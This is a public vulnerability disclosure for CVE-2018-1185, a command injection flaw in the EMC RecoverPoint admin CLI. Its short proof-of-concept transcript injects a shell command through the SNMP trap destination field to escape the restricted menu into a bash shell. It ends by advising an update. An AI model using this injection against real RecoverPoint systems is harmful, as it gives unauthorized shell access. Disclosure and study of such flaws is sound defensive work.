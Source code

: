 ## Exploit Title: EMC RecoverPoint Admin CLI Command Injection test_snmp

Version: RecoverPoint prior to 5.1.1 RecoverPoint for VMs prior to 5.0.1.3

Date: 2018-05-11

Vendor Advisory: http://seclists.org/fulldisclosure/2018/Feb/9

Exploit Author: Paul Taylor (@bao7uo) / Foregenix Ltd

Github: https://github.com/bao7uo

Tested on: RecoverPoint for VMs 4.3, RecoverPoint 4.4.SP1.P1

CVE: CVE-2018-1185

# 1. Description

An OS command injection vulnerability resulting in code execution as the built-in admin user. 

A crafted entry can result in the ability to escape from the restricted admin user's menu driven CLI to a full Linux operating system shell in the context of the admin user. The attack vector is the trap destination (hostname/IP) parameter of the test_snmp function.
 
# 2. Proof of Concept

```
RecoverPoint> test_snmp
Enter the trap destination (host name or IP)
 > /dev/null 2>&1 ; bash #
admin@RecoverPoint:/home/kos/cli$ exit
exit
Test completed successfully.
RecoverPoint> 
```

3. Solution:
    
Update to latest version of RecoverPoint
